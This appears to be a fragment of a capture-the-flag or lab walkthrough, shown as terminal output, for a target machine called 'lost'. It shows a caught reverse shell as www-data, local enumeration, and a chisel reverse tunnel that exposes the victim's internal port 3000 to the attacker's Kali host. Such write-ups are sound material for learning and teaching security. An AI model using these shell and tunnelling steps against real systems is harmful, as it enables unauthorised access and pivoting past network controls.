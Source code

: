 ```
[CONTINUE]

connect to [192.168.247.128] from (UNKNOWN) [192.168.247.228] 59662
www-data@lost:/var/www/lost$ 
```

```
www-data@lost:/var/www/lost$ ls -l /home/

[SNIP]

drwx------ 4 jackshephard jackshephard 4096 Feb 21  2024 jackshephard
drwx------ 2 johnlocke    johnlocke    4096 Feb 20  2024 johnlocke

www-data@lost:/var/www/lost$ ss -tunlp

[SNIP]

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess         
tcp   LISTEN 0      4096       127.0.0.1:3000      0.0.0.0:*          
```

```
┌──(nabla㉿kali)-[~]
└─$ ./chisel_linux server --reverse --port 7331

2025/06/13 04:51:20 server: Reverse tunnelling enabled
2025/06/13 04:51:20 server: Fingerprint I4onyyysQyD95lX+q2qSul6yz+xV/OzlpPOm5p6TaYQ=
2025/06/13 04:51:20 server: Listening on http://0.0.0.0:7331

[CONTINUE]
```

```
www-data@lost:/var/www/lost$ ./chisel_linux client 192.168.247.128:7331 R:3000:127.0.0.1:3000
```

```
[CONTINUE]

2025/06/13 04:52:45 server: session#1: tun: proxy#R:3000=>3000: Listening
```

```
┌──(nabla㉿kali)-[~]
└─$ ss -tunlp

Netid          State           Recv-Q          Send-Q                    Local Address:Port                     Peer Address:Port          Process                                           
tcp            LISTEN          0               4096                                  *:7331                                *:*              users:(("chisel_linux",pid=63400,fd=5))          
tcp            LISTEN          0               4096                                  *:3000                                *:*              users:(("chisel_linux",pid=63400,fd=7))          
```
